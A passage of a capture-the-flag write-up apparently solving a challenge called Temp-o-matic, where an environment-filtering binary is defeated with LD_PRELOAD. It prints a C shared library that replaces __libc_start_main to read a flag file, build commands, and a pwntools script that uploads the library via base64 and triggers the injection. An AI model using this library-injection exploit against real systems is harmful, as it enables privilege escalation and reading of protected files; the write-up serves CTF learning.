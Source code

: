 So let's make a library which overwrites this functions and simply runs `cat` to display the content of the file `flag`:

```c
/* lib.c */
#include <stdlib.h>
#include <unistd.h>

int __libc_start_main() {
    char *arg[] = { "/bin/cat", "/home/adminimum/flag", 0 };
    execve(arg[0], arg, 0);
    exit(0);
}
```

To compile it as a shared library we can use *gcc* with the `-fPIC` and `-shared` flags:
```
$ gcc -Wall -fPIC -shared -o lib.so lib.c
```

Now we have to somehow upload it to the *Temp-o-matic*. Eventually a *base64* encoding will work.

When trying to write it to the home directory we will recieve an error message, indicating that it is an read-only directory.
Another directory to try out is `/tmp` and indeed this one will work.

The final exploit then looks like this:
```python
from pwn import *
import base64

if __name__ == '__main__':

    # encode lib
    with open('lib.so', 'rb') as f:
        lib = base64.b64encode(f.read())

    # connect to the temp-o-matic
    con = remote('env.ctfcompetition.com', 1337)

    # upload library
    con.sendline('cd /tmp')
    con.sendline('echo "%s" > lib' % lib.decode())
    con.sendline('base64 -d lib > lib.so')

    # run the exploit
    con.sendline('/home/adminimum/filterenv')
    con.recvline()
    con.sendline('LD_PRELOAD=ANYTHING')
    con.sendline('LD_PRELOAD=/tmp/lib.so')
    con.sendline('')

    log.info('FLAG = "%s"' % con.recv().decode())
```
